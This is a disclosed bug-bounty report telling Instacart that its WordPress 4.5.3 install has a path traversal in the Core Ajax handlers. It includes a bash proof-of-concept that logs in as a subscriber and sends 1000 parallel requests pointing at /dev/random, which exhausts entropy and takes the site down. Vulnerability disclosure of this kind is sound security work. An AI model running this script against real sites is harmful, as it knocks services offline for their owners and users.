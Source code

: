 # WordPress Authentication Denial of Service

## Report Details
- **Report ID**: 163307
- **URL**: https://hackerone.com/reports/163307
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-25T09:31:32.552Z
- **Disclosed**: 2017-05-26T19:36:12.991Z

## Reporter
- **Username**: clizsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Hi,
I found out that you are using WordPress version 4.5.3.

Researchers found out 5 days ago, that this version has a vulnerability, a Path traversal in WordPress Core Ajax handlers.

_Intro_
WordPress is web software that can be used to create a website, blog, or app. A path traversal vulnerability exists in the Core Ajax handlers of the WordPress Admin API. This issue can (potentially) be used by an authenticated user (Subscriber) to create a denial of service condition of an affected WordPress site.

_Description_
Potentially this issue can be used to disclose information, provided that the target file contains a line with Version:. What is more important that it also allows for a denial of service condition as the logged in attacker can use this flaw to read up to 8 KB of data from /dev/random. Doing this repeatedly will deplete the entropy pool, which causes /dev/random to block; blocking the PHP scripts. Using a very simple script, it is possible for an authenticated user (Subscriber) to bring down a WordPress site. It is also possible to trigger this issue via Cross-Site Request Forgery as the nonce check is done too late in this case.

_PoC Script_
```
#!/bin/bash
target="http://<target>"
username="subscriber"
password="password"
cookiejar=$(mktemp)
   
# login
curl --cookie-jar "$cookiejar" \
   --data "log=$username&pwd=$password&wp-submit=Log+In&redirect_to=%2f&testcookie=1" \
   "$target/wp-login.php" \
   >/dev/null 2>&1
   
# exhaust apache
for i in `seq 1 1000`
   do
      curl --cookie "$cookiejar" \
      --data "plugin=../../../../../../../../../../dev/random&action=update-plugin" \
      "$target/wp-admin/admin-ajax.php" \
      >/dev/null 2>&1 &
done
   
rm "$cookiejar"
```

Link: 
```
https://sumofpwn.nl/advisory/2016/path_traversal_vulnerability_in_wordpress_core_ajax_handlers.html
```

I hope that I helped you.


## Attachments
No attachments
